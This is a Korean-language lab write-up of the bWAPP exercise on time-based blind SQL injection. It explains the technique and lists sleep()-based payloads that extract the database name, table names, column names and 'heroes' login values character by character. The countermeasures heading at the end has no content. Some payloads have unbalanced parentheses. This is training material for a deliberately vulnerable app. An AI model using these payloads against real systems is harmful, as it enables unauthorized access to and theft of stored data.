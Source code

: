 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind - Time-Based"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### Time - Based

앞서 영화검색에서는 검색 결과의 유,무로만 참/거짓을 판별할 수 있었는데

어떤 경우애는 응답의 결과가 항상 동일하여 응답 결과만으로는 참/거짓을 판별할 수 없는 경우가 있다.

이럴 때는 시간을 지연시키는 쿼리를 주입하여 응답 시간의 차이로 참/거짓을 판별할 수 있는데

이 때 사용하는 공격기법이 Blind - Time SQL Injection 이다.

![image-20220317020316667](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020316667.png)

- 참 거짓을 sleep 함수를 이용해 구분해보자

![image-20220317020532247](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020532247.png)

- 참일 때 슬립이 걸리고

![image-20220317020555024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020555024.png)

- 거짓일 때는 걸리지 않는다.
- 이를 이용해서 Boolean-Based 와 같이 length, 대소문자구분, 대조를 통해 진행해보자

<BR>

### DB 조회

![image-20220317020736145](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020736145.png)

`' or length(database())=1 and sleep(1)#`

- DB의 길이 구해주고

`' or ascii(substring(database(),1,1))>96 and sleep(1)#`

- 문자를 알아내야 하는데, ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분하고

`' or substring(database(),1,1)='a' and sleep(1)#`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

```
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

`' or database()='bWAPP' and sleep(1)#`

- 그리고 마지막에 DB가 bWAPP이 맞는지 체크

<BR>

### 테이블 조회

![image-20220317021056545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021056545.png)

`' or length((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1))=4 and sleep(1)#`

- 길이 구해주고

`' or ascii(substring(select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자 구분

`' or substring((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1)='a' and sleep(1) #`

- 문자 대조
- DB 처럼 bWAPP 이 맞는지 체크해줘도 된다.
- 난 안함 귀찮아서..(사실 함)

<BR>

### 컬럼 조회

![image-20220317021355018](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021355018.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 0,1))=1 and sleep(1)#`

- 길이

`' or ascii(substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자

`' or substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 말이 점점 짧아진다... 미안하다.

<BR>

### 컬럼 속성

![image-20220317021548387](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021548387.png)

`' or length((select login from heroes limit 0,1))=3 and sleep(1)#`

- ㄱㅇ... 길이
- 거의 다 왔다 힘내자 친구들

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96 and sleep(1)#`

- 말안해도 알지?
- 혹시 몰라 대소문자..

`' or substring((select login from heroes limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 끝까지 온 친구들의 노고에 박수를 보낸다.

<BR>

<BR>

## 대응방안

